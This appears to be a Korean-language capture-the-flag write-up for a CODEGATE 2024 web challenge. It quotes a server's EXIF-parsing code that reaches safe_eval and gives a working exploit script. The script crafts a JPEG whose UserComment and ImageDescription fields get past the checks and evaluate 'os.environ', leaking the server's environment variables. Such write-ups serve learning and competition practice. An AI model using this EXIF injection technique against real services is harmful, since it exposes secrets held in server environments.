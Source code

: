```py
            except json.JSONDecodeError:
                json_data = None
                return jsonify({'success': "Verified"}), 200

    except KeyError as e:
        print('Index is not included')

    try:
        exif_data = img._getexif()
        print('!!exif_data: ', exif_data)
        if exif_data:
            exif = {ExifTags.TAGS.get(tag, tag): value for tag, value in exif_data.items()}
            print('exif: ', exif)
            for key, value in exif.items():
                if "ImageDescription" in key:
                    print('value: ', value)
                    ret = validate_domain(value) or validate_ipv4(value) or validate_ipv6(value)
                    if not ret:
                        return jsonify({'success': 'Verified'})
                    if "(" in value:
                        return jsonify({'success': 'Verified'})
                    if ")" in value:
                        return jsonify({'success': 'Verified'})
                    description_contents = safe_eval(value)
                    items_dict = dict(description_contents)
                    return jsonify({'debug': f'{items_dict}' })
    except Exception as e:
        print('!!!!!!!!!!!!!!!!!!!!', e)
```

참고로 중간중간 보이는 print 구문은 내가 디버깅하려고 추가한거다.  
어쨌든 eval을 실행하기 위해서 해야할 것은 다음과 같은데

1. `img.info['exif']`에 `b"CODEGATE2024\x00"` 가 존재해야함
2. `img.info['exif']`에서 `b"CODEGATE2024\x00"` 이후에 모든 문자를 json으로 변환 할 때 오류가 없어야함
3. `img._getexif()`의 `ImageDescription`이 도메인 체크 함수를 통과하고, 소괄호가 없어야함  

처음 문제를 풀 때 1번은 쉽게 만족시켰지만 2번 조건을 해결하려고 할 때 json 형식으로 만들어놓은 exif 뒤에 자꾸 `\x00` null 문자가 생겨서 오류가 났었다. 나는 이를 해결하기 위해 exif에서 가장 마지막에 위치한 필드인 `UserComment` 필드를 사용해보았고 성공했다!!  
  
최종 익스코드는 다음과 같다.

```py
from PIL import Image
import piexif
import io

image = Image.new("RGB", (100, 100), color=(255, 0, 0))
exif_dict = {"0th": {}, "Exif": {}, "GPS": {}, "Interop": {}, "1st": {}, "thumbnail": None}

exif_dict["Exif"][piexif.ExifIFD.UserComment] = 'CODEGATE2024\x00{"test":"test"}'.encode("utf-8")
exif_dict["0th"][piexif.ImageIFD.ImageDescription] = 'os.environ'.encode("utf-8")
exif_bytes = piexif.dump(exif_dict)
output = io.BytesIO()
image.save(output, "jpeg", exif=exif_bytes)
output.seek(0)

with open("imageA.jpeg", "wb") as f:
    f.write(output.read())
    
image = Image.new("RGB", (100, 100), color=(255, 255, 0))
output = io.BytesIO()
image.save(output, "jpeg")
output.seek(0)

```